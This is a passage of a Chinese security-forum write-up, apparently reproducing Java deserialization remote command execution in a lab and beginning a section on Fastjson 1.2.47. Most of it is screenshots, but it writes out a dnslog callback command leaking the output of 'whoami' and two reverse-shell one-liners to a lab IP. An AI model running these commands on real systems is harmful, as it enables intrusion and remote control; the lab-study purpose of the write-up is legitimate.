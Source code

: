![image-20210805122124987](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b5fa32bcd4e4494dbc4218d99d008c85c801c2f3.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d2c2342b808c654e62b8821d54785f1c3a322d97.png)

![image-20210805123008912](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b0c04e064ed394d60f18fcaceac0edbff78b9c75.png)

![image-20210805123021956](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-103b13218d9d5f3722552325d06c8990babf45aa.png)

![image-20210805123053360](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-48ebf706b252748d2876c852cb10777567a3cf06.png)

###### 可以看见成功写入。

##### 这里我们用dnslog做一个小测试：

```php
http://www.dnslog.cn/
```

![image-20210805124301665](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-354b774417522e35a781626776bffd5b1cd819a6.png)

##### 直接覆盖原来得文件；

```php
"/bin/sh","-c","ping user.'whoami'.jeejay.dnslog.cn"
```

![image-20210805124525496](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7c71d007d2e23f1beeb60c128a839077b21fac0a.png)

![image-20210805124643803](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bf9e62ce0f5525dc63a7170ff0bac75be4e25042.png)

##### 点击send发送之后成功回显

![image-20210805124754620](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3ff08765580eb7a2e394336bed586a2ff4af239d.png)

##### 反弹shell的话也只需修改恶意类中commands的内容即可，代码参考如下，建议用第二个，第二个前面带主机名，看起来舒服点，我这里用的第一个；

```php
"/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.65/8899;cat <&5 | while read line; do $line 2>&5 >&5; done"
或者
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/1234 0>&1"
```

![image-20210805125319382](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-098b004abc423ca00d7bddca176c70e641343af5.png)

![image-20210805125947213](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-06d93379693846b78a95c3c3f639045f155f53e2.png)

### 2.2 Fastjson 1.2.47远程命令执行漏洞

#### 漏洞原理

##### Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。
